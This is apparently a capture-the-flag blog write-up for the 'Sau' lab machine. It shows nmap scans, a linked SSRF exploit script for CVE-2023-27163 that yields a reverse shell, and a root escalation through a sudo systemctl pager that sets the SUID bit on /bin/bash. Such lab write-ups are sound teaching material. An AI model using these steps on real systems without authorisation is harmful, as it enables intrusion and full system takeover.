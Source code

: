 ```yaml
---
title: Sau
published: true
layout: post
---
```


<br />

---------------
Sau is an Easy Difficulty Linux machine that features a Request Baskets instance that is vulnerable to Server-Side Request Forgery (SSRF) via [CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163). Leveraging the vulnerability we are to gain access to a Maltrail instance that is vulnerable to Unauthenticated OS Command Injection, which allows us to gain a reverse shell on the machine as puma. A sudo misconfiguration is then exploited to gain a root shell.

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/JfYLuYz0vFk?si=g9tMKkHZtXBc5Asx" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.11.224 -p- -T4 --min-rate 5000 -oN all_ports.txt --open -n -Pn -v
```

![](/assets/Sau/1.png)
<br />
<br />
<br />

There are **2 open ports**:
+ **22/tcp**
+ **55555/tcp**

<br />
Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.224 -p 22,55555 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A -v
```

![](/assets/Sau/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **22/tcp OpenSSH 8.2p1**
+ **55555/tcp unknown**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.224 -p 22,55555 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn -v
```

![](/assets/Sau/3.png)
<br />
<br />
<br />

Which didn't return anything.

<br />

------

<br />
### Foothold

This machine's foothold was very straightforward, a **single exploit** was required to gain the foothold, this exploit leveraged an **SSRF vulnerability** to **upload a reverse shell**.

<br />

The first thing I notice when entering the **website** on **port 55555/tcp** is a **version number**:
![](/assets/Sau/4.png)
<br />
<br />
<br />

A quick search revealed a **CVE**:
![](/assets/Sau/5.png)
<br />
<br />
<br />

So I used an [exploit](https://github.com/davuXVI/CVE-2023-27163) from *davuXVI* to get the foothold:

```bash
./CVE_2023_27163.sh -i 10.10.11.224 -f localhost:80 -t 10.10.16.9
```

![](/assets/Sau/6.png)
<br />
<br />
<br />

And just like that we got the user flag:
<br />
![](/assets/Sau/7.png)
<br />
<br />
<br />

------

<br />
### Privilege Escalation

This machine's privilege escalation is very funny, as it's through a **pager**, which I personally enjoy so much.

<br />

Enumerating possible privilege escalation vectors we discover that we can **execute `systemctl` with `sudo`**:
![](/assets/Sau/8.png)
<br />
<br />
<br />

After a glimpse at [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/) we know how to escalate privilege:
![](/assets/Sau/9.png)
<br />
<br />
<br />

However, when we run the command, no pager is invoked:
![](/assets/Sau/10.png)
<br />
<br />
<br />

This is due we are not in an actual tty, we can fix this running:

```bash
script /dev/null -c bash
```

<br />

We can test if it worked by running this command and receiving a tty size:

```bash
stty size
```

![](/assets/Sau/11.png)
<br />
<br />
<br />

Now everything works and the pager is invoked, we can **run a command prepended by an exclamation mark to run a command**, like assigning SUID privilege to the bash binary:

```bash
!chmod u+s /bin/bash
```

![](/assets/Sau/12.png)
<br />
<br />
<br />

Now we just have to **leverage the SUID permission** running `bash -p` and get the root flag:
![](/assets/Sau/13.png)

<br />
<br />
<br />
